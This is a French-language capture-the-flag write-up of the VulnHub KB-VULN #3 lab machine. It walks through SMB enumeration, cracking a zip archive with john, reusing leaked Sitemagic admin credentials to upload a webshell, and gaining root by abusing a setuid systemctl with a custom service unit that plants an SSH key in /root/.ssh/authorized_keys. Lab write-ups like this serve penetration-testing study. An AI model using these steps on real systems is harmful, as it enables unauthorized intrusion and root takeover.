 ```yaml
---
title: Solution du CTF KB-VULN #3 de VulnHub
tags: [CTF, VulnHub]
---
```


Kyoto Frift
-----------

Ça manque un peu d'originalité mais comme le précédent on va partir sur du Samba :  

```
Nmap scan report for 192.168.56.7
Host is up (0.00017s latency).
Not shown: 65531 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 cb:04:f0:36:3f:42:f7:3a:ce:2f:f5:4c:e0:ab:fe:17 (RSA)
|   256 61:06:df:25:d5:e1:e3:47:fe:13:94:fd:74:0c:85:00 (ECDSA)
|_  256 50:89:b6:b4:3a:0b:6e:63:12:10:40:e2:c4:f9:35:33 (ED25519)
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
MAC Address: 08:00:27:CA:64:3B (Oracle VirtualBox virtual NIC)
Service Info: Host: KB-SERVER; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-time: 
|   date: 2021-12-07T21:14:52
|_  start_date: N/A
|_nbstat: NetBIOS name: KB-SERVER, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: kb-server
|   NetBIOS computer name: KB-SERVER\x00
|   Domain name: \x00
|   FQDN: kb-server
|_  System time: 2021-12-07T21:14:52+00:00
```

Hack-Me ? Oui oui !  

```console
$ smbclient -U "" -N -L //192.168.56.7

        Sharename       Type      Comment
        ---------       ----      -------
        Files           Disk      HACK ME
        IPC$            IPC       IPC Service (Samba 4.7.6-Ubuntu)
SMB1 disabled -- no workgroup available

$  smbclient -U "" -N //192.168.56.7/Files
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Oct  2 20:11:49 2020
  ..                                  D        0  Fri Oct  2 19:12:00 2020
  website.zip                         N 38936127  Fri Oct  2 20:11:41 2020

                14380040 blocks of size 1024. 9540188 blocks available
```

Quand on tente de décompresser le zip ce dernier réclame un mot de passe. On a recours à l'utilitaire *zip2john* qui génère un hash aussi long qu'une *Chevrolet Bel Air*. Je vous fait grâce de cet output.  

Ça se casse bien :  

```
$ ./john --wordlist=rockyou.txt  hash.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
porchman         (website.zip)     
1g 0:00:00:02 DONE (2021-12-07 22:19) 0.3861g/s 1764Kp/s 1764Kc/s 1764KC/s porno:O..popchie91
```

L'archive semble être une backup de l'install du CMS [Sitemagic](https://sitemagic.org/). On trouve ainsi des identifiants dans le fichier *config.xml.php* :  

```php
<?php exit(); ?>                                                                                                       
<?xml version="1.0" encoding="ISO-8859-1"?>                                                                            
<entries>                                                                                                              
<!-- REQUIRED, throws custom exception if missing -->                                                                  
    <entry key="Username" value="admin"/>                                                                              
<!-- REQUIRED, throws custom exception if missing -->                                                                  
    <entry key="Password" value="jesse"/>
```

On a aussi un numéro de version dans *metadata.xml* :  

```html
<entry key="Release" value="4.4.2" />
```

Il existe un exploit d'upload pour cette version [sur exploit-db](https://www.exploit-db.com/exploits/48788). L'exploit nécessite une authentification préalable et ça tombe bien on a des identifiants.  

L'intuition m'amène sur *http://192.168.56.7/sitemagic/* et les identifiants passent.  

Pas besoin d'exploit pour cette vulnérabilité : on trouve facilement dans l'interface la fonctionnalité d'upload et elle ne dispose d'aucune restriction sur le type de fichier.  

Par défaut les fichiers sont placés dans le dossier *images* donc mon webshell se retrouve à *http://192.168.56.7/sitemagic/files/images/shell.php*.  

Dokyo Trift
-----------

Un utilisateur heisenberg est présent sur le système. Il possède notamment le premier flag (*6346c6d19751f1a3195f1e4b4b609544*) :  

```
drwxr-xr-x 4 heisenberg heisenberg 4096 Oct  2  2020 .
drwxr-xr-x 3 root       root       4096 Oct  2  2020 ..
-rw-r--r-- 1 heisenberg heisenberg  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 heisenberg heisenberg 3771 Apr  4  2018 .bashrc
drwx------ 2 heisenberg heisenberg 4096 Oct  2  2020 .cache
drwx------ 3 heisenberg heisenberg 4096 Oct  2  2020 .gnupg
-rw-r--r-- 1 heisenberg heisenberg  807 Apr  4  2018 .profile
-rw-r--r-- 1 heisenberg heisenberg    0 Oct  2  2020 .sudo_as_admin_successful
-rw-r--r-- 1 root       root         33 Oct  2  2020 user.txt
```

Cette fois pas d'environnement Docker. *LinPEAS* remonte la faille sudo que j'ai mentionné sur d'autres CTFs :  

```
[+] [CVE-2021-3156] sudo Baron Samedit

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: probable
   Tags: mint=19,[ ubuntu=18|20 ], debian=10
   Download URL: https://codeload.github.com/blasty/CVE-2021-3156/zip/main

[+] [CVE-2021-3156] sudo Baron Samedit 2

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: probable
   Tags: centos=6|7|8,[ ubuntu=14|16|17|18|19|20 ], debian=9|10
   Download URL: https://codeload.github.com/worawit/CVE-2021-3156/zip/main
```

Mais le CTF est un peu ancien donc l'escalade de privilèges attendue n'est certainement pas liée à cet exploit.  

En revanche le programme */bin/systemctl* est setuid et setgid root. Il existe une entrée pour ce programme [sur GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/) mais elle se base sur un fichier placé dans */tmp* alors que systemctl montre une certaine aversion avec ce dossier (voir par exemple [ici](https://ivanitlearning.wordpress.com/2020/10/14/hackthebox-jarvis/)).  

Je me suis mis sous la racine web où j'avais un accès en écriture et commencé par un petit test :  

```console
www-data@kb-server:/var/www/html/sitemagic$ cat yolo.service 
[Unit]
Description=root

[Service]
Type=oneshot
ExecStart=/usr/bin/touch  /var/www/html/sitemagic/hi_there.txt

[Install]
WantedBy=multi-user.target

www-data@kb-server:/var/www/html/sitemagic$ systemctl link /var/www/html/sitemagic/yolo.service 
Created symlink /etc/systemd/system/yolo.service → /var/www/html/sitemagic/yolo.service.

www-data@kb-server:/var/www/html/sitemagic$ systemctl enable --now yolo.service
Created symlink /etc/systemd/system/multi-user.target.wants/yolo.service → /var/www/html/sitemagic/yolo.service.

www-data@kb-server:/var/www/html/sitemagic$ systemctl start yolo.service

www-data@kb-server:/var/www/html/sitemagic$ systemctl status yolo.service
● yolo.service - root
   Loaded: loaded (/var/www/html/sitemagic/yolo.service; enabled; vendor preset: enabled)
   Active: inactive (dead) since Wed 2021-12-08 08:14:54 UTC; 1min 23s ago
  Process: 8900 ExecStart=/usr/bin/touch /var/www/html/sitemagic/hi_there.txt (code=exited, status=0/SUCCESS)
 Main PID: 8900 (code=exited, status=0/SUCCESS)

Dec 08 08:14:54 kb-server systemd[1]: Starting root...
Dec 08 08:14:54 kb-server systemd[1]: Started root.

www-data@kb-server:/var/www/html/sitemagic$ ls -l hi_there.txt 
-rw-r--r-- 1 root root 0 Dec  8 09:14 hi_there.txt
```

J'obtiens bien mon fichier créé par *root* :)  

Je modifie le service pour que la commande copie ma clé publique SSH sur */root/.ssh/authorized\_keys* et je relance. Systemctl voit une modification et demande un rechargement :  

```console
www-data@kb-server:/var/www/html/sitemagic$ systemctl start yolo.service
Warning: The unit file, source configuration file or drop-ins of yolo.service changed on disk. Run 'systemctl daemon-reload' to reload units.

www-data@kb-server:/var/www/html/sitemagic$ systemctl daemon-reload
www-data@kb-server:/var/www/html/sitemagic$ systemctl start yolo.service
www-data@kb-server:/var/www/html/sitemagic$ systemctl status yolo.service
● yolo.service - root
   Loaded: loaded (/var/www/html/sitemagic/yolo.service; enabled; vendor preset: enabled)
   Active: inactive (dead) since Wed 2021-12-08 08:22:05 UTC; 4s ago
  Process: 16351 ExecStart=/bin/cp /var/www/html/sitemagic/my_key.pub /root/.ssh/authorized_keys (code=exited, status=0/SUCCESS)
 Main PID: 16351 (code=exited, status=0/SUCCESS)

Dec 08 08:22:05 kb-server systemd[1]: Starting root...
Dec 08 08:22:05 kb-server systemd[1]: Started root.

root@kb-server:~# cat root.txt 

  ####   ####  #    #  ####  #####    ##   ##### #    # #        ##   ##### #  ####  #    #  ####     
 #    # #    # ##   # #    # #    #  #  #    #   #    # #       #  #    #   # #    # ##   # #        
 #      #    # # #  # #      #    # #    #   #   #    # #      #    #   #   # #    # # #  #  ####     
 #      #    # #  # # #  ### #####  ######   #   #    # #      ######   #   # #    # #  # #      #    
 #    # #    # #   ## #    # #   #  #    #   #   #    # #      #    #   #   # #    # #   ## #    #    
  ####   ####  #    #  ####  #    # #    #   #    ####  ###### #    #   #   #  ####  #    #  #### 

                                            kernelblog.org    

49360ba4cbe27a1b900df25b247315d7
```


*Published December 08 2021 at 12:10*
